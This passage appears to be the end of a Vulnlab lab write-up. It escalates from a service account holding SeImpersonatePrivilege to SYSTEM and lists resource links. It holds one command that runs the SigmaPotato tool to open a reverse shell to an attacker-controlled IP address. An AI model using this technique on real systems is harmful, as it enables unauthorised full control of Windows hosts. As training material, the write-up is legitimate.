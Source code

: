 The privilege escalation can be performed by abusing `SeImpersonatePrivilege`.

Running `whoami /priv`, I noticed that svc_mssql has that privilege (pretty usual for service accounts).

https://github.com/tylerdotrar/SigmaPotato
Use `SigmaPotato` to get a reverse shell as `SYSTEM`.
```
.\sigma.exe --revshell 10.8.3.153 1337
```
![](../img/35.png)

![https://api.vulnlab.com/api/v1/share?id=6e2075c5-971c-49ae-806a-4deaf1d09577](https://api.vulnlab.com/api/v1/share?id=6e2075c5-971c-49ae-806a-4deaf1d09577)
# Resources
![https://medium.com/greenwolf-security/ntlm-theft-a-file-payload-generator-for-forced-ntlm-hash-disclosure-2d5f1fe5b964](https://medium.com/greenwolf-security/ntlm-theft-a-file-payload-generator-for-forced-ntlm-hash-disclosure-2d5f1fe5b964)

![https://github.com/tylerdotrar/SigmaPotato](https://github.com/tylerdotrar/SigmaPotato)
